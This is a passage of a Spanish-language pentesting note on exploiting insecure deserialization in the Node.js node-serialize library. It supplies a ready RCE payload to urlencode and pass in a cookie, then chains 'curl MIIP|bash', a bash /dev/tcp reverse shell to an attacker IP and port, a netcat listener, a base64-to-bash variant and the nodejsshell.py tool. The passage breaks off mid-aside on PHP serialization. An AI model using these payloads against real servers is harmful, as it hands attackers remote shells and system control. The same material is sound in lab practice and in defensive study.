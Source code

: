 Al ejecutar; `node javaScriptObject.js`, siendo ese .js por ejemplo:

``` js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
var serialize = require('node-serialize');	
console.log("Serialized: \n" + serialize.serialize(y));
```
Te serializará ese objeto (pone serialize.serialize) y antes de serializarlo se ejecuta el comando. Esto es gracias al IIFE (Immediatily Invoke Fuction Expresion) -que son esos paréntesis antes de la coma-.

Ahora bien, normalmente la vulnerabilidad ocurre cuando el servidor web deserializa la data que tu mandes serializada. Hace algo así:
``` js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```
Donde la data serializada, que tendrás que encodear posiblemente a urlencode, que a su vez pasarás por ejemplo en una cookie seria:
``` plaintext
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```
Lo más rápido es que te copies el payload de arriba y pongas el comando que quieras -quitale /n /t puede que de problemas y quita espacios, después encodea a urlencode-.

 Otra manera de hacerlo, algo más larga, es serializar un .js -donde metas el comando que quieras- y el objeto serializado pasarlo por el input(una cookie por ejemplo) que te deserialize el servidor objetivo, recuerda el IIFE(los paréntesis).

Los **comandos a realizar** son:  
Primero un ping a mi máquina a ver si tengo rce.  
Segundo y final un `curl MIIP|bash`. Compartiendo servidor con python por ejemplo y creando un index.html asi:

```
#!/bin/bash

bash -i >& /dev/tcp/MIIP/PUERTO 0>&1
```
Me pongo en escucha por el puerto escogido `nc -nlvp PUERTO`. Para provocar la deserialización, en un ejemplo particular, podría meter el objeto serializado en la cookie y dar a actualizar.
Otra forma si da problemas, sería hacer en tu máquina local un `cat index.html | base64 -w 0; echo` Y ya el comando en la data serializada que fuera;
`echo “cadena enbase64”|base64 -d|bash`

Otra manera de hacerlo contra un node.js (también sale en la página web puesta arriba de opsecx), es con la herramienta **nodejsshell.py** en github, me lo copio en formato raw por ejemplo y luego;

``` plaintext  
> wget <direccion>  
> python2 nodejsshell.py <MiIp> <Mipuerto>
```
Si tuvieras que serializar en php puedes visualizar la máquina **Tenet** (s4vionlive en youtube), la estructura estándar para crear un objeto y que que te serialize en el mismo script es:  
